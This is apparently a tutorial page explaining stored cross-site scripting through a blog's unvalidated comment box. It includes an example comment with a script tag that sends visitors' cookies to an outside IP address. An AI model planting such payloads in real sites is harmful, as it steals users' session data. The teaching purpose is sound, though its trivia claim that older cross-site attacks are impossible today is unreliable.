 Here is the comments section of the website: 

> **Comments Section** <br>
That's a very nice picture! <br>
Good photograph!

However, are users limited to just typing in text? This website does not check the input, thus users are able to use formatting HTML tags, such
as `<b>` for bolding and `<i>` for italicizing.

What happens when a user submits the following as a comment?
```html
I <b>like</b> your photograph!
```

It becomes: 
> **Comments Section** <br>
That's a very nice picture! <br>
Good photograph! <br>
I **like** your photograph!

HTML also supports <tooltip content="In HTML, anything between the opening and closing script tags will run as <b>JavaScript</b>. 
">`<script>`</tooltip>, for you to write `JavaScript` code on the webpage as well. 

What happens when a malicious user submits the following as a comment?

```html
This is an innocent looking comment. <script>sendToServer("http://139.241.0.3/", document.cookie)</script>
```

It becomes: 
> **Comments Section** <br>
That's a very nice picture! <br>
Good photograph! <br>
I **like** your photograph! <br>
This is an innocent looking comment.

Visitors of the blog will only see the non-script portion of the comment. The script portion is rendered as `Javascript` just like how the `<b>` and `<i>` tags causes text to be **bolded** and *italicised* but the tags themselves are not shown. 

The script `<script>sendToServer("http://139.241.0.3/", document.cookie)</script>` will be run immediately when the visitors load the website. Here, the visitor will be unaware that his <tooltip content="A cookie is a piece of data sent from the server and stored on the client's computer. It can contain sensitive information such as login data.">cookie</tooltip> is stolen. 


Therefore, the malicious user has managed to add additional "functionalities" to the website that is not intended by the original website developer.

<box> Trivia: The term "Cross Site Scripting" is actually an old term. It originally describe an attack whereby hackers write malicious JavaScript scripts on a separate website, and injects it into the victim's website, in order to steal data from the victim's website/deface the page (hence "Cross Site"). Such attacks are no longer possible today, and the modern definition of "Cross Site Scripting" includes attacks that do not need to be on a separate website to work.</box>
